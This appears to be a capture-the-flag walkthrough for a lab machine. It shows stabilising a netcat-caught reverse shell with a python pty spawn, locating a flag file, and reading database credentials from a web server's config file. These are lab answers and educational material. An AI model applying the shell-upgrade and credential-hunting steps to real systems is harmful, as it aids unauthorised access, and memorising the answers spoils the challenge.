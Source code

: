 
### What is the value of the web.txt flag?
- **Answer:** THM{ENTER_THE_GRID}
- **Steps to Reproduce:** 
    ```bash
    www-data@light-cycle:/$ find . -type f -name web.txt 2>/dev/null
    ./var/www/web.txt
    www-data@light-cycle:/$ cat /var/www/web.txt
    THM{ENTER_THE_GRID}
    ```
---

### Upgrade and stabilize your shell
- **Steps to Reproduce:** 
    ```bash
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@light-cycle:/$ export TERM=xterm
    export TERM=xterm
    www-data@light-cycle:/$ ^Z
    [1]+  Stopped                 nc -lvnp 1234
    root@kali: stty raw -echo; fg
    nc -lvnp 1234
    ```
---

### Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password
- **Answer:** tron:IFightForTheUsers
- **Steps to Reproduce:** 
    ```bash
    www-data@light-cycle:/$ cd /var/www/
    www-data@light-cycle:/var/www$ ls
    ENCOM  TheGrid  web.txt
    www-data@light-cycle:/var/www$ cd TheGrid/
    www-data@light-cycle:/var/www/TheGrid$ ls
    includes  public_html  rickroll.mp4
    www-data@light-cycle:/var/www/TheGrid$ ls -la
    total 15576
    drwxr-xr-x 4 root root     4096 Dec 16 22:34 .
    drwxr-xr-x 4 root root     4096 Dec 20 03:43 ..
    drwxr-xr-x 2 root root     4096 Dec 20 03:20 includes
    drwxr-xr-x 5 root root     4096 Dec 20 03:20 public_html
    -rw-r--r-- 1 root root 15929856 Dec 16 17:58 rickroll.mp4
    www-data@light-cycle:/var/www/TheGrid$ cd includes/
    www-data@light-cycle:/var/www/TheGrid/includes$ ls
    apiIncludes.php  dbauth.php  login.php  register.php  upload.php
    www-data@light-cycle:/var/www/TheGrid/includes$ cat dbauth.php 
    <?php
            $dbaddr = "localhost";
            $dbuser = "tron";
            $dbpass = "IFightForTheUsers";
            $database = "tron";

